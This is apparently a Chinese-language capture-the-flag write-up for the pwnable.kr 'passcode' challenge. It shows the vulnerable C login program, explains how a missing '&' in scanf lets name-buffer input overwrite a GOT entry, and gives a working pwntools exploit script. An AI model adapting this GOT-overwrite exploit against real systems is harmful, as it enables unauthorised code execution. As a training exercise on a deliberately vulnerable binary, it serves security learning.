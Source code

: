 ```c
#include <stdio.h>
#include <stdlib.h>
void login(){
	int passcode1;
	int passcode2;
	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);
	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);
	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");
	welcome();
	login();
	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

login()裡面的`scanf("%d", passcode1)`沒有用`&`字號 

然後passcode1跟name的位置差96bytes (且welcome(),login()的ebp位置相同 所以才能這麼做)

所以我們可以把4bytes位置塞到passcode1裡面 (scanf執行時會把值存到裡面 所以我們可以構造記憶體位置塞在passcode1中)

然後在scanf那邊在輸入我們要的值

於是把頭腦動到`fflush(stdin)`的GOT位置(0x0804a000)

然後在scanf那邊輸入`system("/bin/cat flag")`的指令位置(0x080485E3)

![](https://i.imgur.com/UZCoEHC.png)

tips : 找system("/bin/cat flag")位置時要找`mov /bin/cat flag`那行 這樣system執行時才有參數

exploit: 
```python
from pwn import *
r = ssh(host='pwnable.kr',user='passcode',password='guest',port=2222).process("./passcode")
# r = process('./passcode')
print r.recv()
r.sendline('a'*96+p32(0x0804a000))
print r.recv()
r.sendline(str(0x080485E3))
print r.recv()
```
